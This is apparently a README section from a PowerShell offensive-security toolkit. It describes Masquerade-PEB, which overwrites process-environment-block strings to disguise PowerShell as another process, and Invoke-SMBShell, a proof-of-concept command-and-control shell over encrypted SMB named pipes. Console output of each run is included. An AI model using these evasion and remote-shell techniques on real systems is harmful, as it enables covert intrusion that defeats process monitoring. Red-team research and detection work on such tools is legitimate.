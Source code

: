 Masquerade-PEB uses NtQueryInformationProcess to get a handle to powershell's PEB. From there it replaces a number of UNICODE_STRING structs in memory to give powershell the appearance of a different process. Specifically, the function will overwrite powershell's "ImagePathName" & "CommandLine" in _RTL_USER_PROCESS_PARAMETERS and the "FullDllName" & "BaseDllName" in the _LDR_DATA_TABLE_ENTRY linked list.
    
This can be useful as it would fool any Windows work-flows which rely solely on the Process Status API to check process identity.

```
C:\PS> Masquerade-PEB -BinPath C:\Windows\System32\notepad.exe

[?] PID 2756
[+] PebBaseAddress: 0x7FFD3000
[!] RtlEnterCriticalSection --> &Peb->FastPebLock
[>] Overwriting &Peb->ProcessParameters.ImagePathName: 0x002F11F8
[>] Overwriting &Peb->ProcessParameters.CommandLine: 0x002F1200
[?] Traversing &Peb->Ldr->InLoadOrderModuleList doubly linked list
[>] Overwriting _LDR_DATA_TABLE_ENTRY.FullDllName: 0x002F1B74
[>] Overwriting _LDR_DATA_TABLE_ENTRY.BaseDllName: 0x002F1B7C
[!] RtlLeaveCriticalSection --> &Peb->FastPebLock
```

### Invoke-SMBShell

POC shell using named pipes (System.IO.Pipes) as a C2 channel. The SMB traffic is encrypted using AES CBC (code from Empire), the key/pipe are generated randomly by the server on start-up.

**Server:**
```
PS C:\> Invoke-SMBShell

+-------
| Host Name: 0AK
| Named Pipe: tapsrv.5604.yk0DxXvjUD9xwyJ9
| AES Key: q6EKfuJTX93YUnmX
+-------

[>] Waiting for client..


SMB shell: whoami
0ak\b33f

SMB shell: IdontExist
The term 'IdontExist' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.

SMB shell: $PSVersionTable
Name                           Value
----                           -----
PSRemotingProtocolVersion      2.2
BuildVersion                   6.2.9200.17065
PSCompatibleVersions           {1.0, 2.0, 3.0}
PSVersion                      3.0
CLRVersion                     4.0.30319.42000
WSManStackVersion              3.0
SerializationVersion           1.1.0.1

SMB shell: leave

[!] Client disconnecting..

[>] Waiting for client..

```